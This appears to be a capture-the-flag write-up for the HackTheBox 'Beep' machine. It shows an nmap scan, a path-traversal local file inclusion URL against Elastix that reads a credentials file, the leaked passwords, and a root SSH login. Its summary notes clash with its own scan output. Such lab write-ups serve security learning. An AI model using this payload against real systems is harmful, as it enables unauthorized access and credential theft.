 ```yaml
---
layout: default
title: "Beep"
tags: hackthebox linux easy
---
```


| OS       | Difficulty | Points | Release Date  | IP Address  |
|----------|------------|--------|---------------|-------------|
| Linux    | Easy       | 20     | 15 March 2017 | 10.10.10.7  |



# Skills

>* NMap
>* Local File Inclusion
>* SSH

# Information Gathering

## Nmap (Port Scan)

```bash
sudo nmap -A -T4 -p- 10.10.10.7
```

This was the initial nmap scan. The key things to note are:
>* ftp-anon: Anonymous FTP login allowed (FTP code 230)
>* Files accessible from Anonymous login
>* 80/tcp open  http    Microsoft IIS httpd 7.5

```bash
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: APOP RESP-CODES IMPLEMENTATION(Cyrus POP3 server v2) LOGIN-DELAY(0) STLS UIDL TOP EXPIRE(NEVER) PIPELINING USER AUTH-RESP-CODE
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: RIGHTS=kxte Completed LISTEXT QUOTA ID OK MULTIAPPEND IMAP4 STARTTLS UIDPLUS LITERAL+ URLAUTHA0001 X-NETSCAPE CONDSTORE MAILBOX-REFERRALS CATENATE LIST-SUBSCRIBED IDLE NAMESPACE THREAD=REFERENCES SORT ANNOTATEMORE THREAD=ORDEREDSUBJECT BINARY RENAME IMAP4rev1 SORT=MODSEQ NO CHILDREN ACL UNSELECT ATOMIC
443/tcp   open  ssl/https?
|_ssl-date: 2020-07-14T01:36:36+00:00; +1m40s from scanner time.
878/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=7/14%OT=22%CT=1%CU=38075%PV=Y%DS=2%DC=T%G=Y%TM=5F0D0C5
OS:C%P=x86_64-pc-linux-gnu)SEQ(SP=C3%GCD=1%ISR=CF%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R
OS:=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%
OS:Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 1m39s

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   24.28 ms 10.10.14.1
2   25.11 ms 10.10.10.7
2   26.88 ms 10.10.10.5
```

# Exploitation

## Elastix LFI Exploit

```bash 
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

Exploit Source: https://www.exploit-db.com/exploits/37637

After researching the services running on the machine, I discovered that a service called "Elastix" (an interface tool for Aesterix based PBX's) was vulnerable to local file inclusion meaning that I was able to read any of the files on the machine. So, as you can see from the URL above, I manipulated the current_language parameter in the graphql file to read out the servers amportal config file, that would then give me the database usernames and passwords.

```bash

FreePBX Database configuration
AMPDBHOST: Hostname where the FreePBX database resides
AMPDBENGINE: Engine hosting the FreePBX database (e.g. mysql)
AMPDBNAME: Name of the FreePBX database (e.g. asterisk)
AMPDBUSER: Username used to connect to the FreePBX database
AMPDBPASS: Password for AMPDBUSER (above)
AMPENGINE: Telephony backend engine (e.g. asterisk)
AMPMGRUSER: Username to access the Asterisk Manager Interface
AMPMGRPASS: Password for AMPMGRUSER

AMPDBHOST=localhost
AMPDBENGINE=mysql
AMPDBNAME=asterisk
AMPDBUSER=asteriskuser
AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPENGINE=asterisk
AMPMGRUSER=admin
AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
```

## SSh'ing in

```bash
$ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.10.10.7
```

Now, admittedly I think I got lucky on this one, because it just so happened that the root password for the box was also in this file. So, using the command above, I was simply able to use SSH to gain access to the root account on the machine.

```bash
root@10.10.10.7s password: 
Last login: Tue Jul 14 04:31:58 2020 from 10.10.14.23

Welcome to Elastix...

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]
```

# User Flag

```bash
[root@beep ~] cd /
[root@beep /] cat $(find -iname "user.txt")
```

# Root Flag

```bash
[root@beep /] cat $(find -iname "root.txt")
```